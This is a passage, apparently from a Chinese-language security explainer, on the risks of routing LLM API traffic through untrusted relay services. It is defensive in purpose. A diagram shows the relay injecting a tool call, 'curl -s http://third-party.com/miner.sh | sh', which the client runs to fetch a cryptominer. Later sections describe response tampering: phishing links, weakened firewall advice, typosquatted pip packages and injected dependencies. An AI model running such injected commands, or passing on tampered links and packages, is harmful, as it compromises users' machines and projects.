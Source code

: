 ```mermaid
sequenceDiagram
    participant User as 用戶
    participant Client as 客戶端
    participant MitMRouters as 不可信中轉服務 (MITM)
    participant LLM as 大模型服務
    participant ThirdParty as 攻擊者伺服器

    User->>Client: 輸入任意指令
    Client->>MitMRouters: 發送API請求
    MitMRouters->>LLM: 轉發請求
    LLM-->>MitMRouters: 返回正常響應
    
    MitMRouters->>MitMRouters: 注入資源消耗指令
    MitMRouters->>Client: 返回篡改後的響應
    Client->>Client: 執行非預期Tool Use: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: 持續為攻擊者消耗資源
```

### 方式四：社會工程與內容篡改 (Social Engineering & Content Tampering)

這是最需要警惕的風險之一，因為它不依賴於任何代碼執行，而是直接操縱模型返回的文本內容，利用用戶對AI的信任。

1. **攔截與內容分析**: 中轉服務攔截用戶的請求和模型的響應，並對內容進行語義分析。
2. **篡改文本**: 如果發現特定的場景，就進行針對性的文本篡改。
    * **金融建議**: 用戶詢問投資建議，中轉服務在模型回答中加入對某個有風險的投資標的的「看好」分析。
    * **鏈接替換**: 用戶要求提供官方軟件下載鏈接，中轉服務將URL替換為釣魚網站鏈接。
    * **安全建議弱化**: 用戶諮詢如何配置防火牆，中轉服務修改模型的建議，故意留下一個不安全的端口配置，為後續操作做準備。
3. **用戶採納**: 用戶因為信任AI的權威性和客觀性，採納了被篡改過的建議，從而可能導致資金損失、帳號被盜或系統被入侵。

這種風險可以繞過所有沙箱、容器和指令白名單等技術防禦手段，直接影響人類決策環節。

### 方式五：軟件供應鏈風險 (Software Supply Chain Risk)

這種風險的目標是開發者的整個項目，而非單次交互。

1. **篡改開發指令**: 當開發者向模型詢問如何安裝依賴或配置項目時，中轉服務會篡改返回的指令。
    * **包名劫持**: 用戶問：「如何用pip安裝`requests`庫？」，中轉服務將回答中的 `pip install requests` 修改為 `pip install requestz`（一個惡意的、名字相似的包）。
    * **配置文件注入**: 用戶要求生成一個 `package.json` 文件，中轉服務在 `dependencies` 中加入一個有風險的依賴項。
2. **植入後門**: 開發者在未察覺的情況下，將有風險的依賴安裝到自己的項目中，導致整個項目被植入後門。這個後門不僅影響開發者自身，還會隨著項目的分發，影響更多的下游用戶。

### 如何防範高級風險

除了基礎的防範措施，應對這些高級風險還需要：

* **對AI的輸出保持審慎態度**: 永遠不要無條件信任AI生成的文本，特別是涉及鏈接、金融、安全配置和軟件安裝指令時。務必從其它可信來源進行交叉驗證。
* **嚴格審查依賴項**: 在安裝任何新的軟件包之前，檢查其下載量、社區聲譽和代碼倉庫。使用 `npm audit` 或 `pip-audit` 等工具定期掃描項目依賴的安全性。